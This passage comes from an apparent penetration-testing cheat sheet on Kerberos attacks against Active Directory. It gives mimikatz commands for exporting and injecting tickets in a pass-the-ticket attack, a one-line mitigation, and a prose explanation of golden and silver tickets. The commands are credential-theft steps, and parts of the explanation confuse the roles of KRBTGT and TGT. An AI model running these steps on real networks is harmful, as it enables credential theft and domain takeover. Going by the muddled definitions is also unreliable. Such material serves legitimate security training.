 ![image](https://github.com/user-attachments/assets/9c0188db-029e-48f2-8f19-7da16a2f80f6)

#### mimikatz

```
# CMD - Run as Administrator
.\mimikatz.exe
#In mimikatz context menu
privilege::debug
# [output '20' OK] if it does not that means you do not have the administrator privileges to properly run mimikatz
# Export all of the .kirbi tickets into the current dir
sekurlsa::tickets /export
# cache and impersonate the given ticket
kerberos::ptt <ticket-full-name>
# Verify by listing our cached tickets (in CMD)
klist
```

#### Pass the Ticket Mitigation

- Don't let your domain admins log onto anything except the domain controller - This is something so simple however a lot of domain admins still log onto low-level computers leaving tickets around that we can use to attack and move laterally with.

### Golden/Silver Ticket Attacks

A silver ticket can sometimes be better used in engagements rather than a golden ticket because it is a little more discreet. If stealth and staying undetected matter then a silver ticket is probably a better option than a golden ticket however the approach to creating one is the exact same. The key difference between the two tickets is that a silver ticket is limited to the service that is targeted whereas a golden ticket has access to any Kerberos service.

A specific use scenario for a silver ticket would be that you want to access the domain's SQL server however your current compromised user does not have access to that server. You can find an accessible service account to get a foothold with by kerberoasting that service, you can then dump the service hash and then impersonate their TGT in order to request a service ticket for the SQL service from the KDC allowing you access to the domain's SQL server.

In order to fully understand how these attacks work you need to understand what the difference between a KRBTGT and a TGT is. A KRBTGT is the service account for the KDC this is the Key Distribution Center that issues all of the tickets to the clients. If you impersonate this account and create a golden ticket form the KRBTGT you give yourself the ability to create a service ticket for anything you want. A TGT is a ticket to a service account issued by the KDC and can only access that service the TGT is from like the SQLService ticket.

A golden ticket attack works by dumping the ticket-granting ticket of any user on the domain this would preferably be a domain admin however for a golden ticket you would dump the krbtgt ticket and for a silver ticket, you would dump any service or domain admin ticket. This will provide you with the service/domain admin account's SID or security identifier that is a unique identifier for each user account, as well as the NTLM hash. You then use these details inside of a mimikatz golden ticket attack in order to create a TGT that impersonates the given service account information.

#### mimikatz
